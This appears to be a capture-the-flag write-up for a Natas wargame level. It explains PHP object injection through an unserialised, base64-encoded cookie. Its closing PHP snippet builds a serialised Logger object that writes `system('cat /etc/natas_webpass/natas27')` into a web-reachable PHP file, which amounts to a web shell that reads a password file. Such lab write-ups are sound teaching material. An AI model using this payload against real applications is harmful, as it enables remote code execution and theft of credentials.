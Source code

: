 This level is quite challenging. I had to consult an [online resource](https://www.youtube.com/watch?v=IgxhtJQL-gY&ab_channel=JohnHammond) to discover that I had to perform an object injection using insecure object deserialisation.

We see in the code that there is a `drawing` cookie which basically stores data representing all lines which have been drawn during the session.

When a request is sent, the program takes the value of the `drawing` cookie, base64-decodes it, then unserialises it to retrieve an array of coordinates representing previously drawn lines. It then reads the coordinates of each line and draws them. The program then adds any newly drawn lines to the array of coordinates, serialises the array, base64-encodes it, and stores it in the `drawing` cookie for future requests.

The serialisation and unserialisation involved in storing information on drawn lines makes it vulnerable to [object injection](https://www.sonarsource.com/blog/php-object-injection/). We can create an object, serialise it, and pass inject it into the program through the `drawing` cookie. The injected object will be unserialised by the program.

We can take advantage of the [magic methods](https://www.php.net/manual/en/language.oop5.magic.php) of the injected object, which are methods which execute 'automatically' at certain stages in the execution of the wider program. We see that there is a defined `Logger` class with magic methods `__construct` and `__destruct`. We can send a customised serialised `Logger` object to the program. We see that each `Logger` object has 3 object variables: an init message, exit message, and a location to write all log messages to. The init and exit messages will be written to the specified log file automatically when the magic methods `__construct` and `__destruct` are executed.

To exploit this, we can create a `Logger` object with the messages being PHP code to retrieve the password for natas27 and the log file destination being somewhere we are able to access and read.

We can use PHP to help us generate the custom serialised `Logger` object:

```php
<?php

class Logger{
    private $logFile;
    private $initMsg;
    private $exitMsg;

    function __construct(){
        // initialise variables
        $this->initMsg="start: <?php system('cat /etc/natas_webpass/natas27'); ?>";
        $this->exitMsg="end: <?php system('cat /etc/natas_webpass/natas27'); ?>";
        $this->logFile = "img/password.php"; # has to be a PHP file for the written injected PHP code to be executed
    }
}

$obj = new Logger();
print(serialize($obj)."\n");
print(base64_encode(serialize($obj)));

?>
```
